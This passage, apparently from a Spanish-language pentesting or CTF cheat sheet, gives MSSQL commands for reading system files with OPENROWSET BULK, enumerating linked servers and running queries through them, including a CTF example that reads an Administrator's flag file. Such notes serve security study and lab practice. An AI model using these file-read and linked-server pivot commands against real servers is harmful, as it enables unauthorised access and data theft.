 ```sql
EXEC sp_OADestroy @FileID;
EXEC sp_OADestroy @OLE;
GO
```

#### Lectura

```sql
SELECT * FROM OPENROWSET(BULK N'C:\Windows\System32\drivers\etc\hosts', SINGLE_CLOB) AS Contents;
GO
```


## Servidores Enlazados (MSSQL)

Podemos conocer el nombre de nuestro servidor escribiendo lo siguiente: 
```sql
select @@servername as currentserver;
go
```

### Explorar servidores enlazados

```sql
SELECT srvname, isremote FROM sysservers;
GO
```
### Ejecutar comandos en un servidor enlazado:
```sql
EXECUTE('select @@servername, @@version') AT [nombre_servidor];
GO
```
Ejemplo (Obtención de flag en un ctf):  
```sql
execute ('select * from OPENROWSET(BULK ''C:/Users/Administrator/desktop/flag.txt'', SINGLE_CLOB) AS Contents') at [local.test.linked.srv];
```
